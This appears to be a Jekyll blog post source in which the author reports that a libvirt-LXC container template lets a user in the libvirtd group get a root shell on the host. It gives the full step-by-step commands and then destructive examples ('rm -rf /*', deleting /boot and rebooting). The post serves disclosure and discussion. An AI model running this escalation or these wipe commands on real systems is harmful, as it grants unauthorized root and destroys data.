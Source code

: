 ```yaml
---
layout: post
title: Docker Container Madness
---
```


(...Or how I got root access in less than 5 minutes)

I'm unsure if this is actually a vulnerability or just the intended behaviour of LXC/Docker. Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordainary user account. I imagine new users of Docker, like myself, should be more concerned about how safe these defaults really are.

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
  user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. **LIBVIRT_DEFAULT_URI=lxc:///**, such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
  user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
  user@host:~$ virsh start test
  user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. 

Thoughts are welcomed. Especially from Docker magicians - what are the semantics behind this configuration file? Privileges by default? But my user had no superuser access. The kernel of the host is 3.13.0-32-generic from Ubuntu 14.04.1.

{% highlight bash %}
$ docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
{% endhighlight %}
